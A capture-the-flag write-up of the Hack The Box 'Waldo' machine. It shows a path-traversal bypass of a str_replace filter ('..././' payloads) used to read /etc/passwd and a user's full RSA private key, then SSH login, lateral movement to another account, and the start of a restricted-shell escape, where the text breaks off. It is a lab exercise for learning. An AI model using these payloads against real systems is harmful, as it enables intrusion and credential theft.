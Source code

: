 ```yaml
---
layout: default
title: "HTB Waldo"
description: "10.10.10.87 | 30 pts"
header-img: "boxes/screenshots/14_waldo/waldo.png"
tags: [hackthebox, htb, boot2root, writeup, linux, php, str_replace, ssh, private key, private key authentication, identity file, linux capabilities, capabilities, sbin, getcap, waldo]
---
```


# HTB Waldo (10.10.10.87) MACHINE WRITE-UP

### TABLE OF CONTENTS
y
* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : LATERAL MOVEMENT (nobody -&gt; monitor)](#part-5--lateral-movement-nobody---monitor)
* [PART 6 : PRIVILEGE ESCALATION (monitor -&gt; root)](#part-6--privilege-escalation-monitor---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -v 10.10.10.87
  
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

$ nmap -p 22,80 -sC -sV -v 10.10.10.87

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
  |   256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
  |_  256 38:64:ac:57:56:44:d5:69:de:74:a8:88:dc:a0:b4:fd (ED25519)
  80/tcp open  http    nginx 1.12.2
  | http-methods: 
  |_  Supported Methods: GET HEAD POST
  |_http-server-header: nginx/1.12.2
  | http-title: List Manager
  |_Requested resource was /list.html
  |_http-trane-info: Problem with XML parsing of /evox/about

```

---

## PART 2 : PORT ENUMERATION

### TCP PORT 80 (http)

- __`http://10.10.10.87`__:

  ![80 Landing Page](./screenshots/14_waldo/80_landing_page.png)

  __NOTE(S)__:
  - Opening the __List Manager__ makes a POST request to __`dirRead.php`__:
    ```pcap
    POST /dirRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 13
    Connection: keep-alive
    
    path=./.list/
    ```

  - Opening a list makes a POST request to __`fileRead.php`__:
    ```pcap
    POST /fileRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 18
    Connection: keep-alive

    file=./.list/list1
    ```

---

## PART 3 : EXPLOITATION

- Try reading the contents of __`dirRead.php`__:
  - __`POST /fileRead.php`__ | __`file=./dirRead.php`__:
    ```json
    {"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\tif(isset($_POST['path'])){\n\t\theader('Content-type: application\/json');\n\t\t$_POST['path'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['path']);\n\t\techo json_encode(scandir(\"\/var\/www\/html\/\" . $_POST['path']));\n\t}else{\n\t\theader('Content-type: application\/json');\n\t\techo '[false]';\n\t}\n}\n"}
    ```
    ```php
   <?php

    if($_SERVER['REQUEST_METHOD'] === "POST"){
    	if(isset($_POST['path'])){
    	    header('Content-type: application/json');
    	    $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
            echo json_encode(scandir("/var/www/html/" . $_POST['path']));
    	}else{
    	    header('Content-type: application/json');
    	    echo '[false]';
    	}
    }
 
    ```
  - __`POST /fileRead.php`__ | __`file=./fileRead.php`__:
    ```json
    {"file":"<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"}
    ```
    ```php
    <?php
 
 
    if($_SERVER['REQUEST_METHOD'] === "POST"){
        $fileContent['file'] = false;
        header('Content-Type: application/json');
        if(isset($_POST['file'])){
            header('Content-Type: application/json');
            $_POST['file'] = str_replace( array("../", "..""), "", $_POST['file']);
            if(strpos($_POST['file'], "user.txt") === false){
                    $file = fopen("/var/www/html/" . $_POST['file'], "r");
                    $fileContent['file'] = fread($file,filesize($_POST['file']));
                    fclose();
            }
        }
        echo json_encode($fileContent);
    } 
    ```
    
  __NOTE(S)__:
  - The base directory being used by __`dirRead.php`__ and __`fileRead.php`__ is __`/var/www/html/`__.
  - Reading or listing files outside __`/var/www/html/`__ will not work since the requested directory or file path will just be appended to the base directory.
  - Backwards directory traversal are "avoided" by converting __`../`__ or __`.."`__ to an empty string.
  - This could be bypassed by requesting __`..././`__ which would be converted to __`../`__ since this and other functions like `preg_replace()` are not recursive.

>

- Enumerate files outside the __`/var/www/html/`__ directory:
  - __`POST /fileRead.php`__ | __`file=..././..././..././etc/passwd`__:
    ```json
    {"file":"root:x:0:0:root:\/root:\/bin\/ash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nsync:x:5:0:sync:\/sbin:\/bin\/sync\nshutdown:x:6:0:shutdown:\/sbin:\/sbin\/shutdown\nhalt:x:7:0:halt:\/sbin:\/sbin\/halt\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nnews:x:9:13:news:\/usr\/lib\/news:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucppublic:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/bin\/sh\nman:x:13:15:man:\/usr\/man:\/sbin\/nologin\npostmaster:x:14:12:postmaster:\/var\/spool\/mail:\/sbin\/nologin\ncron:x:16:16:cron:\/var\/spool\/cron:\/sbin\/nologin\nftp:x:21:21::\/var\/lib\/ftp:\/sbin\/nologin\nsshd:x:22:22:sshd:\/dev\/null:\/sbin\/nologin\nat:x:25:25:at:\/var\/spool\/cron\/atjobs:\/sbin\/nologin\nsquid:x:31:31:Squid:\/var\/cache\/squid:\/sbin\/nologin\nxfs:x:33:33:X Font Server:\/etc\/X11\/fs:\/sbin\/nologin\ngames:x:35:35:games:\/usr\/games:\/sbin\/nologin\npostgres:x:70:70::\/var\/lib\/postgresql:\/bin\/sh\ncyrus:x:85:12::\/usr\/cyrus:\/sbin\/nologin\nvpopmail:x:89:89::\/var\/vpopmail:\/sbin\/nologin\nntp:x:123:123:NTP:\/var\/empty:\/sbin\/nologin\nsmmsp:x:209:209:smmsp:\/var\/spool\/mqueue:\/sbin\/nologin\nguest:x:405:100:guest:\/dev\/null:\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/home\/nobody:\/bin\/sh\nnginx:x:100:101:nginx:\/var\/lib\/nginx:\/sbin\/nologin\n"}
    ```
    ```
    root:x:0:0:root:/root:/bin/ash
    ...omitted...
    operator:x:11:0:operator:/root:/bin/sh
    ...omitted...
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    ...omitted...
    nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
    ...omitted...
    ```
  - __`POST /dirRead.php`__ | __`path=..././..././..././home/nobody/`__:
    ```php
    [".","..",".ash_history",".ssh",".viminfo","user.txt"]
    ```

---

## PART 4 : GENERATE USER SHELL

- Check for credentials or private keys in the system:
  - __`POST /dirRead.php`__ | __`path=..././..././..././home/nobody/.ssh/`__:
    ```php
    [".","..",".monitor","authorized_keys","known_hosts"]
    ```
  - __`POST /fileRead.php`__ | __`file=..././..././..././home/nobody/.ssh/.monitor`__:
    ```json
    {"file":"-----BEGIN RSA PRIVATE KEY-----\NMIIEOGIBAAKCAQEAS7SYTDE++NHAWB9E+NN3V5T1DP1TYHC+4O8D362L5NWF6CPL\NMR4JH6N4NCCDM1ZU+QB77LI8ZOVYMBTIEY4FM07X4PQT4ZENBFQKWKOCYV1TLW6F\N87S0FZBHYAIZGRNNELLHB1IZIJPDVJUBSXG6S2CXALE14CJ+PNEIRTSYMIQ1NJCS\NDGCC\/GNPW\/AANIN4VW9KSLLQIAEDJFCHY55SCJ5162Y9+I1XZQF8E9B12WVXIRVN\NO8PLGNFJVW6SHHMPJSUE9VJAIEH+N+5XKBC8\/6PCEOWQS9UJRKNZH9T1LJQ4FX1V\NVI93DAQ3BZ3DHIIWAWAFMQZG+JSTHSWOIWR73WIDAQABAOIBADHWL\/WDMUPEW6KU\NVMZHRU3GCJUZWBET0TNEJBL\/KXNWXR9B2I0DHWFG8IJW1LCU29NV8B+EHGP+BR\/6\NPKHMFP66350XYLNSQISHHIRMOSPYDGQVST4KBCP5VBTTDGC7RZF+EQZYEQFDRKW5\N8KUNPTTMNWWLPYYJLSJMSRSN4BQYT3VRKTYKJ9IGU2RRKGXRNDCAC9EXGRUEVJ3Q\N1H+7O8KGEPMKNEOGUGEJRN69HXYHFBEJ0WLLL8WORT9YUMMOX\/05QOOBL4KQXUM7\NVXI2YWU46+QTZTMEOKJOYLCGLYXDKG5ONDFDPBW3W8O6ULVFKV467M3ZB5YE8GES\NDVA3YLECGYEA7JK51MVUGSIFF6GKXSNB\/W2CZGE9TIXBWUQWEEIG0BMQQVX2ZWWO\NV0OG0X\/IROXACP6Z9WGPIC6FHVGJD\/4BNLTR+A\/LWQWFT1B6L03XDSYAIYIWI9XR\NXSB2SLNWP56A\/5TWTPOKFDBGCQRQHVUKWSHLYFOZGQA0ZTMNV71YKH0CGYEAWSSY\NQFFDAWRVVZJP26YF\/JNZAVLCAC5HMHO7EX5ISCVCX86MHQPEYAFCECZN2DFFOPQI\NYZHZGB9N6Z01YUEKQRKNO3TA6JYJ9OJAMF8GZWVUTPZN41KSND4MWETBED4BUAH1\N\/PACW\/+\/OYSH4BWKKNVHKNW36C+WMNOAX1FWQISCGYBYW\/IMNLA3DRM3CIAA32IU\NLROTP4QGAAMXPNCSMIPAGE6CRFVHIUOZ1SFNBV189Q8ZBM4PXQGKLLOJ8B33HDQ\/\NLNN2N1WYTIYEUGA\/QMDKOPB+TUFF1A5EZZZ0UR5WLLWA5NBEALDNOYTBK1P5N4KP\NW7UYNREX6DGOBT2MD+10CQKBGGVQLYUNE20K9QSHVZTU3E9Z1RL+6LLDMZTFC3G9\N1HLMBKDTJJJ\/XAJAZUIOF4RS\/INNKJ6+QYGKFAPRXXCPF9NACLQJAZGAMXW50AQT\NRJ1BHUCZZCUGQABTPC6VYJ\/HLLLZPIC05AIEHDDVTOPK\/0WUY64FDS0VCCAYMMDR\NX\/PLAOGAS6UHBCM5TWZHTL\/HDPROFAR3QKXWZ5XVAYKB90XGIPS5CWUGCCSVWQF2\NDVVNY8GKBM\/OENWHNTLWRTEJ5QDEAM40OJ\/MWCDC6KPV1LJXRW2R5MCH9ZGBNFLA\NW0IKCBUAM5XZGU\/YSKMSCBMNMA8A5NDRWGFEFE+VGDVPARIE0RO=\N-----END RSA PRIVATE KEY-----\N"}
    ```
    ```rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
    mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
    87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
    dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
    o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
    vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
    vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
    pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
    8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
    1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
    VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
    dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
    v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
    xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
    qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
    yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
    /pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
    LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
    lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
    w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
    1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
    rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
    X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
    DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
    W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
    -----END RSA PRIVATE KEY-----
    ```

- Save the private key then change its permissions:
  ```console
  $ chmod 400 .monitor
  ```

- Login via __`ssh`__ using the private key as the user, __`nobody`__:
  ```console
  $ ssh -i .monitor -l nobody 10.10.10.87

  $ id 
   
    uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

  $ cat user.txt

    3276........................9d24
  
  ```

---

## PART 5 : LATERAL MOVEMENT (nobody -> monitor)

- Re-examine the __`~/.ssh`__ directory:
  - __`authorized_keys`__:
    ```rsa
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgk
    fqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlR
    tJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbB
    VeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+a
    rOD6NJOFJY4jBHvf monitor@waldo
    ```
    __NOTE(S)__:
    - The private key from earlier seems to have been created for a user, __`monitor`__.
>
- Connect to __`monitor@waldo`__ via ssh using the __`nobody`__ terminal:
  ```console
  $ ssh -i ~/.ssh/.monitor monitor@waldo -t sh

  $ id 
  
    uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)

  ```

---

## PART 6 : PRIVILEGE ESCALATION (monitor -> root)

- Enumerate the system:
  ```console
  $ echo $PATH
    
    /home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1

  $ ls -l ~/bin
  
    lrwxrwxrwx 1 root root  7 May  3  2018 ls -> /bin/ls
    lrwxrwxrwx 1 root root 13 May  3  2018 most -> /usr/bin/most
    lrwxrwxrwx 1 root root  7 May  3  2018 red -> /bin/ed
    lrwxrwxrwx 1 root root  9 May  3  2018 rnano -> /bin/nano

  $ getcap ~/bin/*

    bash: getcap: command not found

  ```
  __NOTE(S)__:
  - The only binaries to could be executed are the ones inside __`monitor`__'s home directory.
  - The binaries are __*symlinked*__ to the usual directories like __`/usr/bin/`__ and __`/bin`__.
  - The environment variable, __`PATH`__, enables binaries to be executed without calling their __absolute paths__.
  - The limitation could be overcome by actually calling a binary's absolute path or by exporting the other directories to the environment variable, __`PATH`__.
>
- Export the other paths to __`$PATH`__: 


